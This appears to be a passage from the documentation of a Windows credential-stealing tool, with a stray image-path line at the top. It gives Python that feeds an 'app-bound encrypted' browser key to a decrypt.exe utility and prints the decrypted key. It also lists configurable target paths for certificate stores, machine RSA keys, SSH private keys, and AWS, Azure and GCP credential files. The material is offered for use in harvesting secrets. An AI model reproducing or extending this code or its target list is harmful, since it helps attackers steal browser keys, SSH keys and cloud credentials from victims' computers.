#### Programmatic Usage:
```python
import subprocess
import base64

# Create encrypted key file
encrypted_key = "base64_encrypted_key_here"
with open("app_bound_encrypted_key.txt", "w") as f:
    f.write(encrypted_key)

# Run decrypt utility
result = subprocess.run(["./decrypt.exe"], capture_output=True, text=True)

# Parse output
if result.returncode == 0:
    output_lines = result.stdout.strip().split('\n')
    for line in output_lines:
        if "Decrypted key:" in line:
            hex_key = line.split(": ")[1]
            print(f"Decrypted key: {hex_key}")
else:
    print(f"Decryption failed: {result.stderr}")
```

---

## 🔧 Advanced Configuration

### Custom Extraction Paths:
```python
# Custom certificate store paths
cert_paths = [
    "C:\\Users\\{username}\\AppData\\Roaming\\Microsoft\\SystemCertificates\\My\\Certificates",
    "C:\\ProgramData\\Microsoft\\Crypto\\RSA\\MachineKeys"
]

# Custom SSH key paths
ssh_paths = [
    "C:\\Users\\{username}\\.ssh\\id_rsa",
    "C:\\Users\\{username}\\.ssh\\id_ed25519",
    "C:\\Users\\{username}\\.ssh\\known_hosts"
]

# Custom cloud credential paths
cloud_paths = {
    "aws": "C:\\Users\\{username}\\.aws\\credentials",
    "azure": "C:\\Users\\{username}\\.azure\\credentials",
    "gcp": "C:\\Users\\{username}\\AppData\\Roaming\\gcloud\\credentials"
}
```
